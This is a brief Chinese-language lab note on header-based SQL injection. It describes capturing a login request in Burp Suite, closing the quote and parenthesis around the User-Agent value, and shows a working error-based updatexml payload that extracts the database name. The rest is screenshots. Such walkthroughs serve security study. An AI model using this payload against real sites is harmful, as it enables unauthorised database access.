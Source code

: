 在输入账号和密码之后，用burpsuite抓包，修改User-Agent这行

![image-20240306203617734](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306203617734.png)

![image-20240306203730284](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306203730284.png)

查看源代码得知$uagent是被单引号所包裹起来的，所以首先要加一个单引号闭合，再加#将后面注释，还需注意有一个单括号

```mysql
User-Agent: 'or updatexml(1,concat('~',(select database())),3),2,3) #
```

![image-20240306205316847](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306205316847.png)

这是在源代码中的效果

![](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306204058842.png)

![image-20240306204206732](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20240306204206732.png)
